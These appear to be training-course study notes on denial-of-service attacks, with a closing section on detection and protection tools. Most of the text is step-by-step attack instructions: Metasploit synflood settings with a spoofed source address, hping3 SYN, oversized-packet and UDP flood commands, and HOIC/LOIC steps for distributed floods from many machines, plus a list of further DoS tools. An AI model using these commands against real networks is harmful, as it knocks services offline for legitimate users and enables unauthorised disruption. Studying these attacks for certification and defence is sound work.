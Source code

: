 # Module 10 - Denial-of-Service #
Denial-of-Service is an attack on a computer or network that reduces, restricts or prevents accessibility of system resources to its legitimate users.

In general, the following are categories of DoS/DDoS attack vectors:
* Volumetric Attacks - Consume the bandwidth of the target network or service. Attack techniques: UDP Flooding, ICMP Flooding, Ping of Death, Smurf, Pulse Wave...
* Protocol Attacks - Consume resources like connection state tables present in the network infrastructure components such as load-balancers, firewalls and application servers. Attack techniques: SYN Flooding, Fragmentation attack, Spoofed Session Flood attack, ACK Flood attack...
* Application Layer Attacks - Consume application resources or services, making them unavailable to other legitimate users. Attack techniques: HTTP GET/POST attack, Slowloris attack, UDP Application Layer Flooding...


## SYN Flooding a Target ##
SYN Flooding takes advantage of a flaw with regard to how most hosts implement the TCP three-way handshake. This attack occurs when the intruder sends unlimited SYN packets (requests) to the host system, the host will keep track of the partially open connections while waiting in a listening queue for response ACK packets.

### Metasploit ###
``` msfconsole ```

1. ``` use auxiliary/dos/tcp/synflood ```
2. ``` show options ```, ``` set RHOST <Target IP> ```, ``` set RPORT <Open Target Port - Ex. 21> ```, ``` set SHOST <Spoofed Source IP> ```, ``` set TIMEOUT <Seconds to wait for new data - Ex. 20000> ```
3. ``` exploit ```

### Hping3 ###
``` hping3 -S <Target IP> -a <Spoofed Source IP> -p <Target Port> --flood ``` - SYN Flood '-S' sets the TCP SYN flag 

Other volumetric attacks:

``` hping3 -d 65538 -S -p <Target Port> --flood <Target IP> ``` - Ping of Death Attack. 65538 bytes exceed the max of 65535 bytes, causing the target system to crash.
``` hping3 -2 -p <Target Port (UDP)- ex. 139,137,138,389,161...> --flood <Target IP> ``` - UDP Application Layer Flood


## Performing Distributed Denial-of-Service Attacks ##
### High Orbit Ion Cannon (HOIC) ###
HOIC is a network stress and DoS/DDoS attack application. It is designed to attack up to 256 target URLs simultaneously. It sends HTTP POST and GET requests to a computer that uses lulz inspired GUIs. It offers a high-speed multi-threaded HTTP Flood, a built-in scripting system that allows the deployment of 'boosters' that are scrips designed to thwart DDoS countermeasures and increase DoS output.

It can be found at: `Module 10 Denial-of-Service\DoS and DDoS Attack Tools\`.

Do this in all the machines:
1. Set the Target, set the Power bar to 'High', select the Booster 'GenericBoost.hoic', and click 'Add'
2. Set the nº of threads - Ex. 20
3. Do the same on as many machines as you can
4. 'Fire Teh Lazer!'

### Low Orbit Ion Cannon (LOIC) ###
LOIC is a network stress testing and DoS attack application. It can be found at: `Module 10 Denial-of-Service\DoS and DDoS Attack Tools\`.

Do this in all the machines:
1. 'Select your target' > Type the IP > 'Lock On'
2. 'Attack Options' > Method: UDP, Threads: 10. Also slide the 'Speed' bar to the middle.
3. 'IMMA CHARGIN MAH LAZER'


## Other DoS/DDoS Tools ##
* HULK (https://siberianlaika.ru)
* XOIC (http://anonhacktivism.blogspot.com)
* Tor's Hammer (https://sourceforge.net)
* Slowloris (GitHub)
* R-U-Dead-Yet 
* Tsunami 
* Moihack Port-Flooder

- - - -

## Detect and Protect Against DoS and DDoS Attacks ##
DoS and DDoS detection techniques are based on identifying and discriminating the illegitimate traffic increase and flash events from the legitimate packet traffic. The following are three types of detection techniques:
* Activity Profiling: Profiles based on the average packet rate for a network flow
* Sequential Change-Point Detection: Filters network traffic by IP addresses, targeted port numbers and communication protocols used, and stores the traffic flow data in a graph that shows the traffic flow rate over time
* Wavelet-Based Signal Analysis: Analyzes network traffic in terms of spectral components

### Anti DDoS Guardian ###
Anti DDoS Guardian is a DDoS attack protection tool. It protects the following Servers: IIS, Apache, game, Camfrog, mail, FTP, VOIP PBX and SIP, and other systems. It limits the network flow number, client bandwidth, client concurrent TCP connection number and TCP connection rate. It also limits the UDP bandwidth, UDP connection rate, and UDP packet rate.

It can be found at: `Module 10 Denial-of-Service\DoS and DDoS Protection Tools\`.

### Other DoS and DDoS Protection Tools ###
* Imperva Incapsula DDoS Protection (https://www.incapsula.com)
* DOSarrest's DDoS protection service (https://www.dosarrest.com)
* DDoS-Guard (https://ddos-guard.net)
* Cloudfare (https://www.cloudfare.com)


